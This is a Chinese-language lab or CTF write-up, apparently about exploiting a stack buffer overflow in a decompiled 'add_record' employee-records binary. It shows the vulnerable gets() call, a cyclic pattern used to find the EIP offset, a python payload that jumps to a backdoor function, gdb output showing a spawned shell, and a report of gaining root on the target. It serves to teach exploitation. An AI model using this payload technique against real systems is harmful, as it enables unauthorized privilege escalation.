10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44 | // bad sp value at call has been detected, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
char src[4]; // [esp+0h] [ebp-ACh] BYREF
_BYTE v5[96]; // [esp+4h] [ebp-A8h] BYREF
FILE *v6; // [esp+64h] [ebp-48h] BYREF
int v7; // [esp+68h] [ebp-44h] BYREF
int v8; // [esp+6Ch] [ebp-40h] BYREF
char s[25]; // [esp+73h] [ebp-39h] BYREF
int v10; // [esp+8Ch] [ebp-20h]
FILE *stream; // [esp+90h] [ebp-1Ch]
char *v12; // [esp+94h] [ebp-18h]
int *p_argc; // [esp+9Ch] [ebp-10h]
p_argc = &argc;
*(_DWORD *)src = 16718;
memset(v5, 0, sizeof(v5));
stream = fopen("employee_records.txt", "a");
puts("Welcome to Add Record application\nUse it to add info about Social Network 2.0 Employees");
printf("Employee Name(char): ");
fgets(s, 25, stdin);
printf("Years worked(int): ");
__isoc99_scanf("%d", &v8);
printf("Salary(int): ");
__isoc99_scanf("%d", &v7);
printf("Ever got in trouble? 1 (yes) or 0 (no): ");
__isoc99_scanf("%d", &v6);
do
v10 = getchar();
while ( v10 != 10 && v10 != -1 );
if ( v6 == (FILE *)1 )
{
printf("Explain: ");
gets(src);
vuln(src);
}
puts("Employee data you've entered:");
printf("Name %s\nYears %d, Salary %d, Trouble %d, Comments %s\n", s, v8, v7, v6, src);
v12 = src;
stream = v6;
fprintf(v6, "Name %s\nYears %d, Salary %d, Trouble %d, Comments %s\n", s, v8, v7);
fclose(stream);
return 0;
}
|
根据之前写 PWN 题的经验，gets(src); 这里完全不限制输入长度（相比之下 fgets(s, 25, stdin); 有明显的实际读取限制），考虑从这里栈溢出攻击
这里需要构造一个足够长的字符串，使得 eip 寄存器的值被顺利覆盖，并且覆盖是可控的
不妨构造这样的字符串，确保任取四位字符对应的 ASCII 结果不同：
| aaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaaaAaaaBaaaCaaaDaaaEaaaFaaaGaaaHaaaIaaaJaaaKaaaLaaaMaaaNaaaOaaaPaaaQaaaRaaaSaaaTaaaUaaaVaaaWaaaXaaaYaaaZ...
|
然后进行测试，构造栈溢出：
1
2
3
4
5
6
7
8
9
10
11
12
13
14 | Explain: aaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaaaAaaaBaaaCaaaDaaaEaaaFaaaGaaaHaaaIaaaJaaaKaaaLaaaMaaaNaaaOaaaPaaaQaaaRaaaSaaaTaaaUaaaVaaaWaaaXaaaYaaaZ
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffdc1e ("aaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaaaAaaaBaaaCaaaDaaaEaaaFaaaGaaaHaaaIaaaJaaaKaaaLaaaMaaaNaaaOaaaPaaaQaaaRaaaSaaaTaaaUaaaVaaaWaaaX"...)
EBX: 0x61616e61 ('anaa')
ECX: 0xffffdd40 ("aaaXaaaYaaaZ")
EDX: 0xffffdce2 ("aaaXaaaYaaaZ")
ESI: 0xf7fc2000 --> 0x1d4d6c
EDI: 0xffffdce0 ("aWaaaXaaaYaaaZ")
EBP: 0x61616f61 ('aoaa')
ESP: 0xffffdc60 ("aqaaaraaasaaataaauaaavaaawaaaxaaayaaazaaaAaaaBaaaCaaaDaaaEaaaFaaaGaaaHaaaIaaaJaaaKaaaLaaaMaaaNaaaOaaaPaaaQaaaRaaaSaaaTaaaUaaaVaaaWaaaXaaaYaaaZ")
EIP: 0x61617061 ('apaa')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
|
EIP 的值为 apaa，我们知道了这四位字符串对应的位置就是写入返回地址的位置，尝试注入后门函数的首地址 0x08048676，虽然无法输入 \x86 这样的原始十六进制，但是可以通过 payload 脚本实现
| python -c "print('1\n1\n1\n1\n' + 'aaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaa' + '\x76\x86\x04\x08')" > payload
|
在 gdb 中试一试：
| gdb-peda$ r < payload
Starting program: /home/socnet/add_record < payload
Welcome to Add Record application
Use it to add info about Social Network 2.0 Employees
[New process 3317]
process 3317 is executing new program: /bin/dash
[New process 3318]
process 3318 is executing new program: /bin/bash
[Inferior 3 (process 3318) exited normally]
Warning: not running or target is remote
|
发现多了两个 /bin/bash 进程，说明栈溢出攻击成功了，在实际程序中检验

渗透结果
成功获得了 root 账户权限，修改密码在靶机登录

问题分析/启示
- 对 Linux 程序进行栈溢出攻击时，不易判断地址覆盖点
使用经过特殊构造的字符串（AAAB 式），确保可以通过 EIP 的 4 位输出定位覆盖点
其他
获取 root 权限用时约 5h
备注
摘自 ICS 课程教材《计算机系统 基于 x86+Linux 平台》From P165



{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}